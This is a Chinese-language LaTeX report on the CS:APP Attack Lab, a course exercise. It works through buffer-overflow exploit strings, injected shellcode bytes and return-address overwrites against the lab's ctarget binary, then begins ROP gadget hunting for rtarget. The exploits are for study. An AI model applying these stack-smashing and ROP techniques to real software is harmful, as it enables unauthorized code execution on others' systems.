% !TEX root = main.tex
\usetikzlibrary{matrix,positioning,arrows.meta,automata}

\tikzset{
    font = \small,
    node distance = 0pt,
    every node/.style = {
        inner sep = 0pt,
        outer sep = 0pt
    },
    every matrix/.style = {
        inner sep = 0pt,
        outer sep = 0pt
    },
    note left/.style = {
        anchor = north east,
        minimum height = 20pt
    },
    note right/.style = {
        anchor = north west,
        minimum height = 20pt
    },
    qword/.style = {
        anchor = north,
        draw,
        thick,
        minimum height = 20pt
    },
    trace/.style = {
        ->,
        > = {Stealth[round]},
        shorten > = 1pt,
        thick
    }
}

\section{简介}

\subsection{实验目的}

\begin{itemize}[noitemsep]
    \item 学习如何利用缓冲区溢出安全漏洞对程序发起攻击.
    \item 理解如何编写安全的程序, 编译器与操作系统如何增强程序的健壮性.
    \item 深入理解x86-64的调用栈与传参机制以及指令的编码方式.
    \item 熟练使用 \verb|gdb|, \verb|objdump| 等调试工具.
\end{itemize}

\subsection{实验要求}

给定2个包含缓冲区溢出错误的 x86-64 二进制可执行文件, 要求基于代码注入(CI)或面向返回的编程(ROP), 开发利用安全漏洞, 修改目标文件的行为.

其中, \verb|ctarget| 存在CI攻击漏洞, 共有3个关卡; \verb|rtarget| 存在ROP攻击漏洞, 共有2个关卡.

目标文件将调用 \verb|getbuf| 函数, 从输入源读入字符串. 攻击者通过“利用(exploit)字符串", 使得程序从 \verb|getbuf| 返回时, 调用 \verb|touch1|, \verb|touch2| 或 \verb|touch3| 函数, 同时传入相应参数. 每关要求, 难度及分数列表如下:
\begin{table}[H]
    \centering
    \small
    \begin{tabular}{cccccc}
        \toprule
        Phase & Program        & Level & Method & Function      & Points \\
        \midrule
        1     & \verb|ctarget| & 1     & CI     & \verb|touch1| & 10     \\
        2     & \verb|ctarget| & 2     & CI     & \verb|touch2| & 25     \\
        3     & \verb|ctarget| & 3     & ROP    & \verb|touch3| & 25     \\
        4     & \verb|rtarget| & 2     & ROP    & \verb|touch2| & 35     \\
        5     & \verb|rtarget| & 3     & ROP    & \verb|touch3| & 5      \\
        \bottomrule
    \end{tabular}
    \caption{Attack Lab关卡一览}
\end{table}

每个关卡的具体要求, 见\nameref{procedure}.

\subsection{实验环境}

本实验所有程序和命令均在以下环境执行\footnote{详细解释参见Bomb Lab实验报告.}:
\vspace{8pt}\par{\small\begin{tabular}{ll}
    Machine & ASUS FH5900V Notebook PC\\
    Processor & Intel(R) Core(TM) i7-6700HQ CPU @ 2.60Hz \\
    Memory & 4GB DDR4 2133MHz \\
    System & Windows 10家庭中文版, 64位, 基于x64 \\
    WSL Distro & Ubuntu 20.04.4 LTS \\
    Packages & GNU Binutils 2.34, GDB 9.2.0, GCC 9.4.0, GNU Make 4.2.1
\end{tabular}}

\section{实验成果}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{ci.png}
    \caption{在WSL中攻击\texttt{ctarget}}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.8\textwidth]{rop.png}
    \caption{在WSL中攻击\texttt{rtarget}}
\end{figure}

各关卡的16进制“利用字符串", 参见 \nameref{codelist}.

\section{实验过程}\label{procedure}

\subsection{准备工作}\label{prepare}

将 \verb|ctarget| 和 \verb|rtarget| 分别反汇编, 存于 \verb|ctarget.d| 和 \verb|rtarget.d| 中, 以供参考.
\begin{code}{text}
$ objdump -d ctarget > ctarget.d
$ objdump -d rtarget > rtarget.d
\end{code}

在 \verb|rtarget.d| 中, 搜索 \verb|start_farm| 和 \verb|end_farm|
\begin{code}{text}
0000000000401994 <start_farm>:
  401994: b8 01 00 00 00                movl    $1, %eax
  401999: c3                            retq

...

0000000000401ab2 <end_farm>:
  401ab2: b8 01 00 00 00                movl    $1, %eax
  401ab7: c3                            retq
\end{code}
将其中省略号部分的内容拷贝至 \nameref{farm} 中, 得到“gadget farm"所有函数的小端格式机器码, 以供参考.

\subsection{CI: Level 1}

在 \verb|gdb| 中, 将 \verb|ctarget| 的 \verb|getbuf| 函数反汇编
\begin{code}{text}
$ gdb ctarget
...
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret
End of assembler dump.
\end{code}

由实验材料可知, \verb|Gets| 函数从输入源(\verb|infile|, 默认为 \verb|stdin|)读取一个字符串, 存入其参数指向的位置. 根据x86-64的传参机制, \verb|Gets| 的第一个参数存于 \verb|rdi| 中. 由于 \verb|rdi| 被 \verb|getbuf| 设置为 \verb|rsp|, 所读取的字符串将被存入 \verb|getbuf| 的栈帧中, 与栈帧顶部对齐.

\verb|getbuf| 共分配了 \verb|0x28| = 40 个字节的栈缓冲区, 用于存放输入字符串. 栈帧结构如图 \ref{stackframe} 所示.

\begin{figure}[H]
    \centering
    \begin{tikzpicture}[
        font = \small,
        node distance = 0pt,
    ]{
        \matrix [
            anchor = north,
            row sep = -0.8pt,
            nodes = {qword, minimum width=100pt},
            left delimiter = \{
        ]{
            \node {\verb|rsp|};      \\
            \node {\verb|rsp + 8|};  \\
            \node {\verb|rsp + 16|}; \\
            \node {\verb|rsp + 24|}; \\
            \node {\verb|rsp + 32|}; \\ 
        }; 
        \node at (0,-100.4pt) [
            qword,
            minimum width=100pt
        ]{\verb|rsp + 40|};
        \node at (-60pt,-40pt) [note left]{栈缓冲区(40字节)};
        \node at (55pt,0) [note right]{“利用字符串"起始地址};
        \node at (55pt,-100pt) [note right]{返回地址(8字节)};
    }
    \end{tikzpicture}
    \caption{\texttt{getbuf}栈帧示意图}\label{stackframe}
\end{figure}

若输入长为48字节的利用字符串, 使得栈缓冲区溢出, \verb|getbuf| 的返回地址将被利用字符串的末8个字节覆盖. 当执行完函数末尾的 \verb|ret| 指令, \verb|rip| 将被设置为这8个字节. 我们的目标是将返回地址覆盖为 \verb|touch1| 函数的入口地址, 达到调用 \verb|touch1| 函数的效果.

将 \verb|touch1| 函数反汇编
\begin{code}{text}
(gdb) disas touch1
Dump of assembler code for function touch1:
    0x00000000004017c0 <+0>:     sub    $0x8,%rsp
    ...
\end{code}
得到其地址为 \verb|0x00000000004017c0|, 写作小端格式为 \verb|c0 17 40 00 00 00 00|. 此即利用字符串的末8字节, 前40个字节可以是任意值, 此处统一取 \verb|00|, 得到完整的利用字符串为
\begin{code}{text}
        00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00 00 00 00 00
\end{code}
存于 \nameref{phase1ans} 中. 

利用实验材料中的 \verb|hex2raw| 工具, 将上述字符串由16进制ASCII转化为原始字符形式, 作为 \verb|ctarget| 的输入
\begin{code}{text}
$ cat phase1.txt | ./hex2raw | ./ctarget -q
\end{code}
成功通过本关卡, 输出如下
\begin{code}{text}
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00 
\end{code}

\subsection{CI: Level 2}

攻击目标同样是 \verb|ctarget|, 本关卡要求在 \verb|getbuf| 函数返回时调用 \verb|touch2| 函数, 同时传入参数 \verb|0x59b997fa| (实验材料 \verb|cookie.txt| 的内容). 应当在跳转至 \verb|touch2| 前, 将 \verb|rdi| 设置为cookie值. 

自然想到在缓冲区注入代码 \verb|mov $0x59b997fa,%rdi|, 通过 \verb|getbuf| 末尾的 \verb|ret| 指令跳转执行. 为此, 只需知道字符串的起始地址, 即 \verb|getbuf| 栈帧的顶部地址. 在 \verb|gdb| 中查看
\begin{code}{text}
(gdb) break *0x4017b9
Breakpoint 1 at 0x4017b9: file buf.c, line 16.
(gdb) run -q
Starting program: /home/hasined/Repositories/Computer-System/labs/attack/target1/ctarget -q
Cookie: 0x59b997fa
Type string:

Breakpoint 1, 0x00000000004017b9 in getbuf () at buf.c:16
16      buf.c: No such file or directory.
(gdb) info frame
Stack level 0, frame at 0x5561dca8:
    rip = 0x4017b9 in getbuf (buf.c:16); saved rip = 0x401976
    called by frame at 0x5561dcb8
    source language c.
    Arglist at 0x5561dc70, args:
    Locals at 0x5561dc70, Previous frame's sp is 0x5561dca8
    Saved registers:
    rip at 0x5561dca0
(gdb) info registers rsp
rsp            0x5561dc78          0x5561dc78
\end{code}
可见 \verb|rsp| 为 \verb|0x5561dc78|, 应当将 \verb|getbuf| 的返回地址覆盖为该值.

接下来考虑如何进一步调用 \verb|touch2| 函数. 根据实验材料的提示,  \verb|jmp| 和 \verb|call| 指令的编码较为困难, 故仍应使用 \verb|ret| 指令完成跳转. 只需在跳转前将 \verb|rsp| 指向的值设置为 \verb|touch2| 的入口地址. 在 \verb|gdb| 中查看
\begin{code}{text}
(gdb) print touch2
$1 = {void (unsigned int)} 0x4017ec <touch2>
\end{code}
可见 \verb|touch2| 的地址为 \verb|0x4017ec|. 

函数 \verb|getbuf| 返回后, \verb|rsp| 变为 \verb|0x5561dca8|, 位于 \verb|test| 函数的栈帧顶部. 我们可以通过注入代码, 将 \verb|0x5561dca8| 处的内容写为 \verb|0x4017ec|. 更简便的办法是通过 \verb|pushq| 指令将 \verb|0x4017ec| 压栈, 等效于修改 \verb|0x5561dca0| 处内容并使 \verb|rsp| 减去8. 

综上所述, 所需注入的三行指令为
\begin{code}{text}
    mov      $0x59b997fa,%rdi
    pushq    $0x4017ec
    retq
\end{code}
存于 \nameref{phase2asm} 中. 用 \verb|gcc| 汇编后, 再用 \verb|objdump| 导出, 得到小端格式的机器码
\begin{code}{text}
$ gcc -c phase2.s
$ objdump -d phase2.o

phase2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
    0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
    7:   68 ec 17 40 00          pushq  $0x4017ec
    c:   c3                      retq
\end{code}
完整的16进制利用字符串存于 \nameref{phase2ans} 中. 

程序跳转过程大致如图 \ref{phase2fig} 所示.
\begin{figure}[H]
    \centering
    \begin{tikzpicture}{
        \matrix (addr) at (-90pt,0) [
            anchor = north west,
            nodes = {note right}
        ]{
            \node {\verb|0x5561dc78: mov $0x59b997fa,%rdi|}; \\
            \node {\verb|0x5561dc80: pushq $0x4017ec|}; \\
            \node {\verb|0x5561dc88: retq|}; \\
            \node {\verb|0x5561dc90|}; \\
            \node {\verb|0x5561dc98|}; \\ 
            \node {\texttt{0x5561dca0: \sout{0x5561dc78} 0x4017ec}}; \\ 
        }; 
        \matrix (stack) [
            anchor = north,
            row sep = -0.8pt,
            nodes = {qword, minimum width=200pt},
            left delimiter = \{
        ]{
            \node (a) {}; \\
            \node (b) {}; \\
            \node (c) {}; \\
            \node (d) {}; \\
            \node (e) {}; \\ 
        }; 
        \node (f) at (0,-100.4pt) [
            qword,
            minimum width=200pt
        ]{};
        \node at (-110pt,-40pt) [note left]{栈缓冲区};
        \node at (-105pt,-100pt) [note left]{返回地址};
        \node at (120pt,30pt) [note right]{\verb|getbuf|};
        \node at (120pt,-70pt) [note right]{\verb|touch2|};
        \draw[trace,out=-100,in=0] (140pt,15pt) to (100pt,-5pt);
        \draw[trace,out=0,in=100] (100pt,-55pt) to (140pt,-75pt);
        \draw[trace,out=-10,in=10,distance=15pt] (100pt,-10pt) to (100pt,-25pt);
        \draw[trace,out=-10,in=10,distance=15pt] (100pt,-35pt) to (100pt,-50pt);
    }
    \end{tikzpicture}
    \caption{\texttt{phase2}的程序跳转过程}\label{phase2fig}
\end{figure}

成功通过本关卡, 输出如下
\begin{code}{text}
$ cat phase2.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
\end{code}

\subsection{CI: Level 3}

攻击目标同样是 \verb|ctarget|, 本关卡要求在 \verb|getbuf| 函数返回时调用 \verb|touch3|. 根据实验材料, \verb|touch3| 函数调用了 \verb|hexmatch| 用于匹配字符串与16进制数, C语言形式如下
\begin{code}{c}
    /* Compare string to hex represention of unsigned value */ 
    int hexmatch(unsigned val, char *sval) 
    { 
        char cbuf[110]; 
        /* Make position of check string unpredictable */ 
        char *s = cbuf + random() % 100; 
        sprintf(s, "%.8x", val); 
        return strncmp(sval, s, 9) == 0; 
    } 
    
    void touch3(char *sval) 
    { 
        vlevel = 3; /* Part of validation protocol */ 
        if (hexmatch(cookie, sval)) { 
            printf("Touch3!: You called touch3(\"%s\")\n", sval); 
            validate(3); 
        } else { 
            printf("Misfire: You called touch3(\"%s\")\n", sval); 
            fail(3); 
        } 
        exit(0); 
    } 
\end{code}

故本关卡需要传入的参数为“59b997fa"(cookie的字符串形式). 应当在跳转至 \verb|touch3| 前, 将 \verb|rdi| 设置为“59b997fa"的首字符地址 \footnote{由于 \texttt{hexmatch} 函数将字符指针 \texttt{s} 随机化, 通过修改 \texttt{s} 指向的字符串过关并不现实. 这启发我们如何编写安全的程序.}.

思路与第2关相似: 将 \verb|getbuf| 函数的返回地址覆盖为栈缓冲区起始地址 \verb|0x5561dc78|. 通过在缓冲区注入代码, 首先用 \verb|mov| 指令将“59b997fa"的首字符地址移动到 \verb|rdi|, 然后用 \verb|pushq| 将 \verb|touch3| 的地址压栈, 最后用 \verb|retq| 跳转到 \verb|touch3|. 

在 \verb|gdb| 中易查得 \verb|touch3| 函数的入口地址
\begin{code}{text}
(gdb) print touch3
$2 = {void (char *)} 0x4018fa <touch3>
\end{code}

难点在于如何存储字符串“59b997fa". 根据实验材料的提示, \verb|hexmatch| 和 \verb|strncmp| 将会在各自的栈帧中保存数据. 按照上述方法, 跳转至 \verb|touch3| 函数后, \verb|rsp| 仍处于 \verb|test| 函数的栈帧顶部, 因此 \verb|hexmatch| 和 \verb|strncmp| 的栈帧极有可能与原 \verb|getbuf| 函数的缓冲区重叠, 导致注入缓冲区的指令或数据被重写. 

一个简便的解决方案是利用缓冲区溢出将字符串“59b997fa"存于 \verb|test| 函数的栈帧中, 只需将利用字符串的第49\textasciitilde56个字符设为“59b997fa", 其16进制ASCII为“35 39 62 39 39 37 66 61". 此时, 参数字符串的首地址为 \verb|0x5561dca8|.

完整机器码如下
\begin{code}{text}
48 c7 c7 a8 dc 61 55    /* mov      $0x5561dca8,%rdi */ 
68 fa 18 40 00          /* pushq    $0x4018fa */ 
c3                      /* retq */
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* 0x5561dc78 */
35 39 62 39 39 37 66 61 /* "59b997fa" */
\end{code}
存于 \nameref{phase3ans} 中.

成功通过本关卡, 输出如下
\begin{code}{text}
    $ cat phase3.txt | ./hex2raw | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
\end{code}

\subsection{ROP: Level 2}

后两个关卡的攻击目标 \verb|rtarget| 在编译过程中启用了栈随机化, 并标记内存中的栈段为不可执行, 意味着基于代码注入的攻击失效. 欲令程序作出反常行为, 只能通过一系列现有代码片段来实现. 这些片段以 \verb|ret| 指令结尾, 称作garget. 实验要求使用给定的“garget farm"中的代码片段来完成ROP攻击.

本关卡继承第2关, 要求在 \verb|getbuf| 函数返回时调用 \verb|touch2| 函数, 同时传入cookie值. 经检验, \verb|rtarget| 与 \verb|ctarget| 有相似结构, 其中 \verb|touch2|, \verb|touch3| 函数的地址均相同.
\begin{code}{text}
(gdb) file rtarget
Load new symbol table from "rtarget"? (y or n) y
Reading symbols from rtarget...
(gdb) print touch2
$3 = {void (unsigned int)} 0x4017ec <touch2>
(gdb) print touch3
$4 = {void (char *)} 0x4018fa <touch3>
\end{code}

观察 \nameref{farm} 中各个函数的结构, 显然并不存在 “\verb|mov $0x59b997fa, %rdi|" 等含立即数的复杂指令. 为了将 \verb|rdi| 设置为 \verb|0x59b997fa|, 应当优先考虑 “\verb|movq %rax,%rbx|"“\verb|popq %rax|" 等编码简单的指令. 

我们断言每个gadget由一次简单的寄存器操作和一条 \verb|ret| 指令组成. 根据实验材料的提示, 本关卡需要2个gadget, 均可在 \verb|start_farm| 和 \verb|mid_farm| 之间找到. 这暗示我们需要两次寄存器操作实现传参, 其过程可能为: 
\begin{enumerate}[noitemsep]
    \item 通过 \verb|popq| 操作, 将栈中的cookie值(位于\verb|test|函数的栈帧顶部)弹出至某个寄存器;
    \item 通过 \verb|movq| 操作, 将cookie值从某个寄存器移动至 \verb|rdi| .
\end{enumerate}
为了方便寻找gadget, 将 \verb|popq| 和 \verb|movq| 的编码总结如下
\begin{table}[H]
    \centering
    \small
    \begin{tabular}{*9c}
        \toprule
        \multirow{2}[2]{*}{Operation} & \multicolumn{8}{c}{Register $R$} \\
        \cmidrule(lr){2-9}
        & \verb|%rax| & \verb|%rcx| & \verb|%rdx| & \verb|%rbx| & \verb|%rsp| & \verb|%rbp| & \verb|%rsi| & \verb|%rdi| \\
        \midrule
        \verb|popq| $R$ & 58 & 59 & 5a & 5b & 5c & 5d & 5e & 5f \\
        \bottomrule
    \end{tabular}
    \caption{``\texttt{popq} $R$'' 的编码}\label{popq}
\end{table}

\begin{table}[H]
    \centering
    \small
    \begin{tabular}{*9c}
        \toprule
        \multirow{2}[2]{*}{Source $S$} & \multicolumn{8}{c}{Destination $D$} \\
        \cmidrule(lr){2-9}
        & \verb|%rax| & \verb|%rcx| & \verb|%rdx| & \verb|%rbx| & \verb|%rsp| & \verb|%rbp| & \verb|%rsi| & \verb|%rdi| \\
        \midrule
        \verb|%rax| & 48 89 c0 & 48 89 c1 & 48 89 c2 & 48 89 c3 & 48 89 c4 & 48 89 c5 & 48 89 c6 & 48 89 c7 \\
        \verb|%rcx| & 48 89 c8 & 48 89 c9 & 48 89 ca & 48 89 cb & 48 89 cc & 48 89 cd & 48 89 ce & 48 89 cf \\
        \verb|%rdx| & 48 89 d0 & 48 89 d1 & 48 89 d2 & 48 89 d3 & 48 89 d4 & 48 89 d5 & 48 89 d6 & 48 89 d7 \\
        \verb|%rbx| & 48 89 d8 & 48 89 d9 & 48 89 da & 48 89 db & 48 89 dc & 48 89 dd & 48 89 de & 48 89 df \\
        \verb|%rsp| & 48 89 e0 & 48 89 e1 & 48 89 e2 & 48 89 e3 & 48 89 e4 & 48 89 e5 & 48 89 e6 & 48 89 e7 \\
        \verb|%rbp| & 48 89 e8 & 48 89 e9 & 48 89 ea & 48 89 eb & 48 89 ec & 48 89 ed & 48 89 ee & 48 89 ef \\
        \verb|%rsi| & 48 89 f0 & 48 89 f1 & 48 89 f2 & 48 89 f3 & 48 89 f4 & 48 89 f5 & 48 89 f6 & 48 89 f7 \\
        \verb|%rdi| & 48 89 f8 & 48 89 f9 & 48 89 fa & 48 89 fb & 48 89 fc & 48 89 fd & 48 89 fe & 48 89 ff \\
        \bottomrule
    \end{tabular}
    \caption{``\texttt{movq} $S$,$D$'' 的编码}\label{movq}
\end{table}
此外, 实验材料中还告知 \verb|ret| 的编码为``c3'', \verb|nop| 的编码为``90'', 以及若干等效于 \verb|nop| 的2字节编码, 如表 \ref{nop} 所示.
\begin{table}[H]
    \centering
    \small
    \begin{tabular}{l*4c}
        \toprule
        \multirow{2}[2]{*}{Operation} & \multicolumn{4}{c}{Register $R$} \\
        \cmidrule(lr){2-5}
        & \verb|%al| & \verb|%cl| & \verb|%dl| & \verb|%bl| \\
        \midrule
        \verb|andb  |$R$,$R$ & 20 c0 & 20 c9 & 20 d2 & 20 db \\ 
        \verb|orb   |$R$,$R$ & 08 c0 & 08 c9 & 08 d2 & 08 db \\ 
        \verb|cmpb  |$R$,$R$ & 38 c0 & 38 c9 & 38 d2 & 38 db \\ 
        \verb|testb |$R$,$R$ & 84 c0 & 84 c9 & 84 d2 & 84 db \\
        \bottomrule
    \end{tabular}
    \caption{等效于``\texttt{nop}'' 的2字节编码}\label{nop}
\end{table}

为了正确匹配所有可能的 \verb|nop| 指令, 并适应 \nameref{farm} 的格式, 使用正则表达式查找可用的gadget. 记字符串$S=$``\detokenize{ (90 |20 c0 |20 c9 |20 d2 |08 c0 |08 c9 |08 d2 |08 db |38 c0 |38 c9 |38 d2 |38 db |84 c0 |84 c9 |84 d2 |84 db )*( .*\n.*)?c3}''.(注意空格.)

